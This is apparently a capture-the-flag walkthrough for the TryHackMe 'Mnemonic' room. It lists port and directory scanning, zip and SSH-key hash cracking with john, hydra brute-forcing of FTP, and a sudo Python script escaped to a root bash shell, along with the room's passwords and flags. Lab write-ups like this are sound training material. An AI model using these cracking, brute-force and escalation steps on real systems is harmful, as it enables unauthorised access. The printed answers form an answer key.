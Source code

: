 ```yaml
---
description: https://tryhackme.com/room/mnemonic
---
```


# Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](<../.gitbook/assets/image (135).png>)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number?&#x20;

![](<../.gitbook/assets/image (136).png>)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](<../.gitbook/assets/image (137).png>)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](<../.gitbook/assets/image (138).png>)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](<../.gitbook/assets/image (139).png>)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](<../.gitbook/assets/image (143).png>)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (144).png>)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](<../.gitbook/assets/image (145).png>)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](<../.gitbook/assets/image (146).png>)

### &#x20;ftp user name?&#x20;

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password?&#x20;

![](<../.gitbook/assets/image (148).png>)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username?&#x20;

![](<../.gitbook/assets/image (149).png>)

![](<../.gitbook/assets/image (150).png>)

![](<../.gitbook/assets/image (151).png>)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](<../.gitbook/assets/image (152).png>)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](<../.gitbook/assets/image (153).png>)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password?&#x20;

```bash
ssh james@10.10.109.239 -p 1337
```

![](<../.gitbook/assets/image (158).png>)

![](<../.gitbook/assets/image (156).png>)

![](<../.gitbook/assets/image (157).png>)

![](<../.gitbook/assets/image (159).png>)

![](<../.gitbook/assets/image (160).png>)

![](<../.gitbook/assets/image (161).png>)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](<../.gitbook/assets/image (162).png>)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](<../.gitbook/assets/image (163).png>)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt&#x20;

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](<../.gitbook/assets/image (165).png>)

![](<../.gitbook/assets/image (167).png>)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](<../.gitbook/assets/image (168).png>)

![](<../.gitbook/assets/image (170).png>)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}
